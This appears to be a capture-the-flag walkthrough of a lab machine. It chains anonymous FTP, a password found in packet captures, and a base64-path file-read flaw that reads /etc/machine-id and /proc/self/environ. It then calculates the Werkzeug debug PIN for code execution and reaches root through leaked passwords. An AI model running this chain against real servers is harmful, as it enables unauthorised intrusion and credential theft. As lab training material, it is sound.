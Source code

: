 # Reconstruction

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 192.168.183.103
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-12 00:04 +08
Nmap scan report for 192.168.183.103
Host is up (0.17s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
8080/tcp open  http-proxy
```

### Anonymous FTP --> Wireshark Password

FTP allows anonymous logins:

```
$ ftp 192.168.183.103 
Connected to 192.168.183.103.
220 (vsFTPd 3.0.3)
Name (192.168.183.103:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||49037|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Apr 29  2020 WebSOC
-rw-r--r--    1 0        0             137 Apr 29  2020 note.txt
ftp> cd WebSOC
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||32250|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0         3086771 Apr 29  2020 1.05.2020.pcap
-rw-r--r--    1 0        0          869677 Apr 29  2020 29.04.2020.pcap
-rw-r--r--    1 0        0        14579662 Apr 29  2020 30.04.2020.pcap
```

`note.txt` mentions that there are passwords within the files:

```
I've just setup the new WebSOC! This should hopefully help us catch these filthy hackers!

TODO: remove leftover passwords from testing
```

Most of the PCAP files contained traffic generated from brute forcing the site, so it was pretty tedious looking through all of them. The `30.04.2020` PCAP file contained a lot of brute force attempts, while `1.05.2020` contained very few:

<figure><img src="../../../.gitbook/assets/image (47).png" alt=""><figcaption></figcaption></figure>

And within that PCAP file, we can find a request that has a password that seems to work:

<figure><img src="../../../.gitbook/assets/image (79).png" alt=""><figcaption></figcaption></figure>

### Web Enum --> LFI

Port 8000 hosted the same Flask application:

<figure><img src="../../../.gitbook/assets/image (744).png" alt=""><figcaption></figcaption></figure>

With the password we found earlier, we can login:

<figure><img src="../../../.gitbook/assets/image (63).png" alt=""><figcaption></figcaption></figure>

Attempting to view the 'Hello World' blog entry results in an error from Flask:

<figure><img src="../../../.gitbook/assets/image (58).png" alt=""><figcaption></figcaption></figure>

There's a feature within this kind of web application that allows us to access the console to run Python code, but this one is protected by the PIN:

<figure><img src="../../../.gitbook/assets/image (588).png" alt=""><figcaption></figcaption></figure>

I ran a directory scan using `wfuzz`:

{% code overflow="wrap" %}
```
$ wfuzz -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --hc=308,404 -t 100 http://192.168.183.103:8080/FUZZ/
000000182:   302        3 L      24 W       253 Ch      "data"                      
000001225:   200        66 L     126 W      2011 Ch     "logout"                    
000001387:   302        3 L      24 W       257 Ch      "create"
```
{% endcode %}

There were just these 3 directories. `create` is pretty obvious in what it does, but `data` was not. Visiting it just shows this:

<figure><img src="../../../.gitbook/assets/image (390).png" alt=""><figcaption></figcaption></figure>

Testing any directories with this shows the same page, but with a new header:

<figure><img src="../../../.gitbook/assets/image (22) (1).png" alt=""><figcaption></figcaption></figure>

The `X-Error` showing `Incorrect Padding` is present, and when googled the first thing that comes up is `base64`:

<figure><img src="../../../.gitbook/assets/image (207).png" alt=""><figcaption></figcaption></figure>

If we use the `base64` encoded string of `/etc/passwd`, we get another unique error:

<figure><img src="../../../.gitbook/assets/image (459).png" alt=""><figcaption></figcaption></figure>

Now there's an error saying there's no file or directory triggered by the newline character. This means we have LFI on the server if we use `echo -n`!

### Werkzeug PIN Calculation --> RCE

Since we have LFI on the Werkzeug server, we can actually calculate the PIN required.&#x20;

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug" %}

{% embed url="https://blog.gregscharf.com/2023/04/09/lfi-to-rce-in-flask-werkzeug-application/" %}

Using our LFI, we can get the parameters required. First, we need to get the ARP Address of the machine. First, we can find the ARP cache to identify the interface used:

```
$ echo -n '/proc/net/arp' | base64
L3Byb2MvbmV0L2FycA==
```

<figure><img src="../../../.gitbook/assets/image (78).png" alt=""><figcaption></figcaption></figure>

`ens160` is the interface name needed to find the ARP address:

```
$ echo -n '/sys/class/net/ens160/address' | base64
L3N5cy9jbGFzcy9uZXQvZW5zMTYwL2FkZHJlc3M=
```

<figure><img src="../../../.gitbook/assets/image (233).png" alt=""><figcaption></figcaption></figure>

Convert this to decimal using `python`:

```
$ python3       
Python 3.11.2 (main, Feb 12 2023, 00:48:52) [GCC 12.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> print(0x005056ba311e)
345052426526
```

Next, we need to get the machine ID.

```
$ echo -n '/etc/machine-id' | base64              
L2V0Yy9tYWNoaW5lLWlk
```

<figure><img src="../../../.gitbook/assets/image (62).png" alt=""><figcaption></figcaption></figure>

The machine ID needed some service name appended to the back of it, which we can get from reading `/proc/self/cgroup`.&#x20;

<figure><img src="../../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

We also need the user that started the application, which can be found in `/proc/self/environ`:

<figure><img src="../../../.gitbook/assets/image (114).png" alt=""><figcaption></figcaption></figure>

Afterwards, I tested it a few times, varying the public bits and testing the machine ID with and without `blog.service` appended to the end of it and eventually got it:

```python
probably_public_bits = [
    'www-data',# username
    'flask.app',# modname
    'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.6/dist-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
    '345052425031',# str(uuid.getnode()),  /sys/class/net/ens33/address
    '00566233196142e9961b4ea12a2bdb29'# get_machine_id(), /etc/machine-id
]
```

<figure><img src="../../../.gitbook/assets/image (122).png" alt=""><figcaption></figcaption></figure>

From here, we can easily get a reverse shell on our machine.&#x20;

<figure><img src="../../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

We cannot read the user flag yet.

## Privilege Escalation

### Jack Creds

Within `app.py` for the Flask website, we can find some credentials:

```
#ADMIN_PASSWORD = 'ee05d64d2528102d45e2db60986727ed'
ADMIN_PASSWORD = '1edfa9b54a7c0ec28fbc25babb50892e'
```

We can `su` to `jack` using the commented password.

<figure><img src="../../../.gitbook/assets/image (108).png" alt=""><figcaption></figcaption></figure>

### Powershell --> Root Creds

Within the home directory of the user, I enumerated the directories present and noticed that there was a Powershell directory:

```
jack@reconstruction:~$ ls -la .local/share
total 12
drwxr-xr-x 3 root root 4096 Sep 30  2020 .
drwxr-xr-x 3 root root 4096 Sep 30  2020 ..
drwxr-xr-x 3 root root 4096 Sep 30  2020 powershell
```

Obviously this was rather odd. If we read the `ConsoleHost_History.txt` file at the end of it, we find this:

```
Write-Host -ForegroundColor Green -BackgroundColor White Holy **** this works!
Write-Host -ForegroundColor Red -BackgroundColor Black Holy **** this works as well!
su FlauntHiddenMotion845
clear history
clear
cls
exit
```

This password can be used to `su` to `root`:

<figure><img src="../../../.gitbook/assets/image (23) (10).png" alt=""><figcaption></figcaption></figure>
